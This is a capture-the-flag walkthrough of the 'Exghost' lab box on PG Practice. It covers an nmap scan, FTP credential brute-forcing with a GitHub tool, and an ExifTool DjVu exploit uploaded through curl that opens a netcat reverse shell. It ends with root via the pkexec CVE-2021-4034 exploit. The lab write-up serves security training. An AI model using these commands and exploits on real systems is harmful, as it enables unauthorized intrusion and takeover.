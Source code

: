 # **Exghost | PG Practice**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/9cad8129-e6fb-4117-8e8a-cd331b4d7611)

***

## **Reconnaissance**

Running an nmap scan the following ports where found


```
# Nmap 7.94SVN scan initiated Wed May 29 09:02:43 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.235.183
Nmap scan report for 192.168.235.183
Host is up (0.15s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
80/tcp open   http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: Host: 127.0.0.1; OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 29 09:05:07 2024 -- 1 IP address (1 host up) scanned in 144.47 seconds
```


Enumerating FTP I don't have access to login anonymously 



![](https://i.imgur.com/69qqsim.png)


Navigating to the website endpoint we have this 403 forbidden page


![](https://i.imgur.com/zQfRlXj.png)



I was able to fuzz for an `/uploads` directory but turns out to still be 403 Forbidden, all 403 bypass proof failed and i knew this was a dead end.


![](https://i.imgur.com/9BhAqgF.png)


However i felt like bruteforcing FTP might be a quick win for me sooo i decided to use the tool from GitHub which gave me a valid username and password



```bash
git clone https://github.com/rix4uni/FTPBruteForce.git
cd FTPBruteForce
go get -u github.com/jlaffaye/ftp
go run ftp-brute-force-default-credentails.go -ip 192.168.235.183:21
```



![](https://i.imgur.com/2mI2tOi.png)



Upon login in i found a backup file and downloaded it to my own machine


![](https://i.imgur.com/x947LFM.png)


Analyzing the backup file with wireshark and looking for captured HTTP packets i found an `exiftool` version



![](https://i.imgur.com/uJVYXnR.png)



Also found out i was able to upload files within an endpoint called `/exiftest.php`



![](https://i.imgur.com/3gcafFc.png)



Which turns out to be true while using the `curl` utility, The below command uploads a local file or send data that is typically submitted via web forms with the `-F` option and `-v` for verbosity.


Also take note of the parameter "`myFile`" as this was the variable given in the above screenshot


```
curl -F "myFile=@./LOCALFILE" http://192.168.235.183/exiftest.php -v
```


![](https://i.imgur.com/N0Jl768.png)



## **Foothold**



Using this [blog](https://www.exploit-db.com/exploits/50911) i was able to create a malicious `.jpeg` file due to Improper neutralization of user data in the `DjVu` file format in `ExifTool` versions 7.44 and up that allows arbitrary code execution when parsing the malicious image.


```
python3 exploit.py -s 192.168.45.219 4444
```


![](https://i.imgur.com/iGiNvWg.png)


Then uploaded it using `curl` and got a reverse shell with `netcat`


```bash
curl -F "myFile=@./image.jpg" http://192.168.180.183/exiftest.php -v

nc -lvnp 4444
```


![](https://i.imgur.com/onmclmB.png)



## **Privilege Escalation**



Running `linpeas.sh` on the machine i discovered few SUID binaries exploits, This was real pain as i had to go over each of them and see which was the quick win 🤦‍♀️


![](https://i.imgur.com/ML0n3DP.png)





Well, privilege escalation was done via the `pkexec` exploit popularly know as `CVE-2021-4034`


> Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).


You can get the python exploit from [here](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) since most of the `C` exploits don't work 


![](https://i.imgur.com/Y4aZ2Ln.png)



Have fun xD


I shouldn't be playing boxes 🤣, i have got exams next week but hell yeah, i really don't wanna be far away from doing this. However i might limit all of this in the coming months, Take of yourselves Fellas :)



![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/a2d7b812-fdd1-450d-8b9a-6690215a8b1c)
